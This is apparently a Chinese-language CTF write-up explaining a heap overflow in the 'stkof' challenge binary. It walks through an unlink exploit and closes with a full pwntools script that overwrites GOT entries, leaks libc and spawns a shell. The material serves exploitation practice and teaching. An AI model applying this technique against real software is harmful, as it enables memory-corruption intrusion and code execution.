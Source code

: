 ## 0x001 程序分析

首先查看程序开启了哪些保护模式：

![](1.png)

使用IDA对程序进行分析，可知这是一道堆方面的题，程序提供了对堆的创建、编辑、删除、显示功能。

**创建**

![](2.png)

根据输入的长度创建一块堆区，并将堆区的地址记录在全局管理表中。

**编辑**

![](3.png)

对创建的堆区进行编辑。

**删除**

![](4.png)

释放要删除的堆区，并将全局管理表中的内容置0。

**显示**

![](5.png)

只使用puts打印了固定字符串，没有打印堆区内容。

## 0x002 漏洞分析

根据上述对反汇编结果的分析可知，在对堆区进行编辑的时候，未对输入字符串的长度进行限制，导致输入的内容可以超过申请的堆区长度，造成堆溢出。

## 0x003 漏洞利用

由于程序存在堆溢出漏洞，并且含有堆的全局管理表，因此可以使用unlink进行漏洞利用。

程序未给出system函数的地址，需要利用puts函数泄露真实地址，但是在显示功能里并未对堆区内容进行输出，所以需要先将strlen函数的真实地址改为puts函数的plt地址。

先申请四块堆区
```
create_note(0x20)       # chunk0
create_note(0x30)       # chunk1
create_note(0x80)       # chunk2
create_note(0x10)       # chunk3
```

chunk0是为了填充堆区，使后面申请的堆区相连（大多数题目中都会有setbuf()/setvbuf()函数，其作用是用来关闭I/O缓冲区，本题没有关闭缓冲区，函数运行开始阶段在fgets()函数以及printf()函数运行的时候，会malloc()两块内存区域）

chunk1、chunk2是用来做unlink的，并且chunk2必须不在fastbin的范围中，不然free操作的时候不会向前合并空闲内存。

chunk3是为了保证第三个堆块不位于top chunk。

此时堆区内容如下：

![](6.png)

接下来通过编辑chunk1伪造堆块，
```
ptr_addr = 0x602150
fake_chunk = p64(0) + p64(0x31)
fake_chunk += p64(ptr_addr-0x18) + p64(ptr_addr-0x10)
fake_chunk += p64(0) + p64(0)
fake_chunk += p64(0x30) + p64(0x90)

write_note(2, fake_chunk)
```

这里是伪造了一个已经被释放的堆块，包含了伪造的prev_size、size、fd、bk，最后修改chunk3的prev_size、size，这样在释放chunk3的时候就可以绕过unlink的第一重校验。

第二重校验的绕过需要构造fd和bk，使 **fd+0x18 == bk+0x10**，如果设置目标地址为 **ptr_addr**，则fd和bk中的内容就是 **ptr_addr-0x18** 和 **ptr_addr-0x10**。

此时的堆区内容如下：

![](7.png)

由于我们的目标是将全局堆管理表中存放chunk1地址的内容修改为全局堆管理表的地址，这样就可以对全局堆管理表进行编辑管理，因此需要将目标地址设置为 **ptr_addr=0x602150**。接着释放chunk2，触发unlink合并堆块，就可以将 **ptr_addr** 中的内容设置为  **ptr_addr-0x18** 也就是 **0x602138**。

此时的堆区内容如下：

![](8.png)

可以看到，已经将0x602150处的内容修改为了0x602138，也就是说，现在已经可以通过编辑chunk1来操作全局堆管理表。

接下来通过编辑chunk1，将全局堆管理表的[0]和[1]修改为strlen函数的got地址和free函数的got地址，然后通过编辑全局堆管理表的[0]，将strlen函数的真实地址改为puts函数的plt地址。
```
payload = p64(0) + p64(elf.got["strlen"]) + p64(elf.got["free"])
write_note(2, payload)
write_note(0, p64(elf.plt["puts"]))
```

此时就可以利用显示功能函数中的 **strlen(::s[v1])** 来打印free函数的真实地址，即可计算出system函数的真实地址。

最后通过编辑全局堆管理表的[1]，将free函数的真实地址改为system函数的真实地址，既可完成漏洞利用。

最终exp如下：
```
from pwn import *

p = process("./stkof")
elf = ELF("./stkof")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

ptr_addr = 0x602150

def create_note(plen):
    p.sendline("1")
    p.sendline(str(plen))
    p.recvuntil("OK\n")

def write_note(idx, payload):
    p.sendline("2")
    p.sendline(str(idx))
    p.sendline(str(len(payload)))
    p.send(payload)
    p.recvuntil("OK\n")

def drop_note(idx):
    p.sendline("3")
    p.sendline(str(idx))

def show_note(idx):
    p.sendline("4")
    p.sendline(str(idx))
    
create_note(0x20)
create_note(0x30)
create_note(0x80)
create_note(0x10)

fake_chunk = p64(0) + p64(0x31)
fake_chunk += p64(ptr_addr-0x18) + p64(ptr_addr-0x10)
fake_chunk += p64(0) + p64(0)
fake_chunk += p64(0x30) + p64(0x90)

write_note(2, fake_chunk)

drop_note(3)

payload = p64(0) + p64(elf.got["strlen"]) + p64(elf.got["free"])
write_note(2, payload)
write_note(0, p64(elf.plt["puts"]))

show_note(1)

p.recvuntil("OK\n")
free_addr = u64(p.recv(6).ljust(8, b'\x00'))

libc_base = free_addr - libc.symbols['free']
system_addr = libc_base + libc.symbols['system']

write_note(1, p64(system_addr))

payload = b"/bin/sh\x00"
write_note(4, payload)

drop_note(4)

p.interactive()
```